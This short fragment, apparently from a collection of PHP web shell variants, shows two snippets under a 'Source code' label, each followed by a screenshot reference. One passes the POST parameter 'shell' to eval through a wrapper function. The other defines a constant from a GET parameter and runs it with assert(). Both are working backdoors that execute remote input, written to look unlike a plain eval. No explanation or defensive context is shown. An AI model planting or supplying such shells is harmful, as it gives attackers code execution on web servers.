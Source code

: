 ```php
<?php
function a()
{
    return 1>0? @$_POST['shell']:0;
}

eval(a());
?>
```
![](img/13.png)


```php
<?php
sprintf("123");
$a=@$_GET['a'];
define("Test", "$a",true);
assert(TesT);
?>
```

![](img/14.png)

---